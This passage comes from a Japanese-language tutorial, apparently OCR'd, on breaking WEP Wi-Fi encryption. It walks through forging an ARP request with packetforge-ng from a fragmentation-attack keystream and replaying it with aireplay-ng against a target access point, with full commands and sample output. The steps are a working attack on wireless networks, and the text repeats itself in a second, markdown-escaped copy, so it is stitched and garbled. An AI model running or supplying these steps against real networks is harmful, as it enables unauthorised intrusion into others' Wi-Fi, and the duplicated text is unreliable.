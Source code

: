 　問題なく実行されたら、次はARPリクエストを作るために「packetforge-ng -0
 -a <ターゲットAPのBSSID> -h <使用するNICのMACアドレス> -k <送信先IPアド
レス> -l <送信元IPアドレス> -y <Fragmentationで作られた.xor> -w <任意のフ
ァイル名>」と入力します。送信先IPアドレスはブロードキャストアドレスである
「255.255.255.255」、送信元IPアドレスは適当で大丈夫です。 

-----
# packetforge-ng -0 -a 00:11:22:33:44:55 -h ZZ:ZZ:ZZ:ZZ:ZZ:ZZ -k 255.255.255.255 -l 192.168.11.11 -y fragment-0123-456789.xor -w aprr
Wrote packet to: aprr
-----

　最後にInteractive packet replayで、自分で作ったARPリクエストを元にパケ
ットを発生させます。「aireplay-ng -2 -r <packetforge-ngで作ったファイル名
> <使用するNIC>」と入力してください。実行後、airodump-ngの#Dataが油断なく
容赦なくどんどん増えていけば成功です。

-----
# aireplay-ng -2 -r aprr ath1

        Size: 68, FromDS: 0, ToDS: 1 (WEP)

             BSSID = 00:11:22:33:44:55
         Dest. MAC = AA:AA:AA:AA:AA:AA
        Source MAC = BB:BB:BB:BB:BB:BB

        0x0000:  0841 de00 0014 6c7e 4080 000f b534 decf  .A....l~@.......
        0x0010:  ffff ffff ffff 8045 d16a c800 6f4f ddef  ......@E.j..oO..
        0x0020:  b488 ad7c 9f2a 64f6 ab04 d363 0efe 4162  ...|.*d....c..Ab
        0x0030:  8ad9 2f74 16bb abcf 232e 97ee 5e45 754d  ../t....#...^EuM
        0x0040:  23e0 883e                                #..>

Use this packet ? y（ここで[y]キーを押す）

Saving chosen packet in replay_src-1234-567890.cap
You should also start airodump-ng to capture replies.
 
Sent 512 packets...
-----
=======
Saving keystream in fragment\-0123\-456789.xor
Now you can build a packet with packetforge\-ng out of that 1500 bytes keystream
\-\-\-\-\-

　問題なく実行されたら、次はARPリクエストを作るために「packetforge\-ng \-0
 \-a <ターゲットAPのBSSID> \-h <使用するNICのMACアドレス> \-k <送信先IPアド
レス> \-l <送信元IPアドレス> \-y <Fragmentationで作られた.xor> \-w <任意のフ
ァイル名>」と入力します。送信先IPアドレスはブロードキャストアドレスである
「255.255.255.255」、送信元IPアドレスは適当で大丈夫です。 

\-\-\-\-\-
\# packetforge\-ng \-0 \-a 00:11:22:33:44:55 \-h ZZ:ZZ:ZZ:ZZ:ZZ:ZZ \-k 255.255.255.255 \-l 192.168.11.11 \-y fragment\-0123\-456789.xor \-w aprr
Wrote packet to: aprr
\-\-\-\-\-
